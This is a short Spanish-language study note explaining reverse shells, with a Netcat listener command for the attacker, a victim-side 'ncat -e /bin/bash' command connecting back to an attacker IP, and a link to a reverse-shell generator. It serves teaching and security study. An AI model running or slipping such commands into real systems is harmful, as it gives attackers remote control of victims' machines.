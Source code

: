 Una "reverse shell" es una técnica utilizada en el campo de la ciberseguridad y la piratería informática. En una comunicación típica de red, un cliente (por ejemplo, un navegador web) se conecta a un servidor (por ejemplo, un servidor web) para solicitar recursos o servicios. Sin embargo, en una "reverse shell", el flujo normal se invierte.

En una "reverse shell", el objetivo es que un dispositivo comprometido (la "víctima") establezca una conexión saliente hacia el atacante (el "atacante" o "controlador"). Esto significa que la víctima ejecuta un código malicioso que permite que el atacante tome el control del dispositivo comprometido a través de una conexión de red. Una vez que se ha establecido esta conexión, el atacante puede enviar comandos al dispositivo comprometido y recibir las respuestas, lo que le permite ejecutar acciones arbitrarias en el sistema comprometido. 

En el siguiente ejemplo se muestra (con [[Netcat]] la forma de una reverse shell)

**Máquina del atacante**

Primero el atacante se pone en escucha con el siguiente comando en un [[puerto]] en específico.

```nc -nlvp 443```

**Máquina victima**

Una vez que la máquina del atacante se encuentre en escucha y previamente con el acceso a la máquina víctima aplicas el siguiente comando para tener una consola:

```ncat -e /bin/bash 198.168.0.1```

----
Página para reverse shell:

https://www.revshells.com
